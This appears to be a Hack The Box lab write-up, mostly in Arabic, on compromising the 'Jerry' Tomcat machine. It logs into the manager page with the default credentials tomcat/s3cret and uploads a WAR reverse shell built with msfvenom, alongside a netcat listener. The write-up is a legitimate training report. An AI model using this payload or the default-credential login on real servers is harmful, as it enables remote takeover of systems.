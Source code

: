 # 1️⃣ HTB Jerry Lab - Arabic Hack The Box Report

---
## 📍 Basic Information
- **Category:** Web
- **Difficulty:** Easy
- **HTB Link:** [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- **Date Completed:** 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- **IP:** 10.10.10.95
- **Ports:** 8080 (HTTP)
- **Service:** Apache Tomcat
- **Technology Identified:** Apache Tomcat
- **OS Guessing:** Windows

### 📄 Files / Endpoints Discovered
- `/docs`
- `/manager/html`
- `/examples`

### 🧪 Tools Used
- `nmap`, `ffuf`, ``msfvenom`` 

---

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
اثناء فحص ال Directories وجدت صفحة تسجيل دخول `manager/html` وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.

![[Pasted image 20250728212622.png]]

لاحظت بصفحة ال `manager` وجود مكان لرفع ملف `Web Application Resource (WAR)` وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات `WAR` وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ `Remote Code Execution`.


---

## 🚀 3. Exploitation

### 🔧 Payload Used

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام `msvenom` : 

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```

وطبعاً لازم شغل `Listener` عندي باستخدام `Netcat`:

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:

![[2.webp]]

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:

1. افتح `8080:[Your_IP]` وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى `/manager/html`
    - username: `tomcat`
        
    - password: `s3cret`
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    

### 🖼️ Screenshot 

![[3.webp]]

![[4.webp]]

---

## 📊 5. Impact & Risk

- **OWASP Category:** A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- **CVSS Score:** 9.0 (Critical)
    
- **Impact:**  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال `Administrator`
    


---

## 🗒️ 7. Lessons Learned

- ضرورة تعطيل واجهات الإدارة (`manager/html`) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.
    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## **tags:**

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack
